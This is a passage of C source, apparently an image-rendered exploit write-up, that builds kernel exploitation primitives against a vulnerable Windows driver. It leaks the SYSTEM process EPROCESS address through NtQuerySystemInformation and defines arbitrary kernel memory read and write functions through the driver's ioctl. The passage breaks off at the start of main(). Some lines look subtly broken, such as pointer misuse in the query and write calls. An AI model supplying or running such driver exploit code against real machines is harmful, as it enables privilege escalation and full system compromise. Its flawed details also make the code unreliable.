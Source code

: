 ```c
// i thought i had to scan the entire memory but you can just get it for free
void* get_sys_eprocess() {
    fNtQuerySystemInformation* NtQuerySystemInformation;
    PSYSTEM_HANDLE_INFORMATION handle_table_info;
    SYSTEM_HANDLE_TABLE_ENTRY_INFO sys_handle_info;
    HANDLE ntdll_handle;
    ULONG ret_len;

    ntdll_handle = GetModuleHandle(L"ntdll");
    NtQuerySystemInformation = GetProcAddress(ntdll_handle, 
        "NtQuerySystemInformation");
    
    handle_table_info = HeapAlloc(GetProcessHeap(), 
        HEAP_ZERO_MEMORY, 
        SystemHandleInformationSize);
    
    NtQuerySystemInformation(SystemHandleInformation, 
        &handle_table_info, 
        SystemHandleInformationSize, 
        &ret_len);
    sys_handle_info = handle_table_info->Handles[0];
    
    return sys_handle_info.Object;
}

DWORD read_mem(HANDLE driver_hndl, void* addr, uint32_t len, void* out_buf) {
    uint32_t bytes_ret;
    struct MMM_req_read req = { 0 };

    req.set_to_0 = 0; // yea i know not needed, just looks cool ok?
    req.addr = (uint32_t)addr;
    req.chunk_len = 1;
    req.copy_len = len;
    req.out_len = len;


    return DeviceIoControl(driver_hndl, MMM_ioctl, &req, sizeof(req),
        out_buf, len, &bytes_ret, NULL);
}

DWORD write_mem(HANDLE driver_hndl, void* dest, void* src, uint32_t len) {
    struct MMM_req_write* in_buf;
    uint32_t bytes_ret;
    size_t in_buf_len;
    char temp[0x100];

    in_buf_len = sizeof(struct MMM_req_write) + len;

    // TODO: check calloc result
    in_buf = calloc(1, in_buf_len);
    in_buf->set_to_1 = 1;
    in_buf->addr = (uint32_t)dest;
    in_buf->chunk_len = 1;
    in_buf->copy_len = len;
    
    memcpy(in_buf + 0x10, src, len);

    return DeviceIoControl(driver_hndl, MMM_ioctl, &in_buf, in_buf_len,
        temp, 0x100, &bytes_ret, NULL);
}

int main() {
    HANDLE hndl;
```